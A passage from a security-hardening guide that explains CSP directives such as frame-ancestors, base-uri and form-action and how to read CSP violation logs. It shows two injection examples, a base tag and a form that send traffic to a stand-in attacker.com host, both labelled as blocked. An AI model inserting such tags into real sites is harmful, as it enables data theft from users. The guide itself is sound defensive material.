 ```
'self'                       - Only allow connections to same origin
```

**This prevents data exfiltration attempts!**

### 7. frame-ancestors: 'none'

**Prevents clickjacking attacks.**

```
Your pages cannot be embedded in any iframe.
Equivalent to: X-Frame-Options: DENY
```

### 8. base-uri: 'self'

**Prevents base tag injection.**

```html
<!-- Blocked by CSP: -->
<base href="https://attacker.com/">
```

### 9. form-action: 'self'

**Restricts where forms can submit.**

```html
<!-- Blocked by CSP: -->
<form action="https://attacker.com/steal">
```

### 10. object-src: 'none'

**Blocks plugins (Flash, Java, etc.).**

```
No <object>, <embed>, or <applet> tags allowed.
```

---

## Testing & Monitoring

### View Violation Reports

**1. Check Application Logs:**
```bash
sudo tail -f /opt/spacyserver/logs/spacyweb.log | grep "CSP Violation"
```

**2. Check Dedicated CSP Violation Log:**
```bash
sudo tail -f /opt/spacyserver/logs/csp_violations.log
```

**3. Browser Developer Console:**
```
Open DevTools → Console tab
Look for CSP violation warnings
```

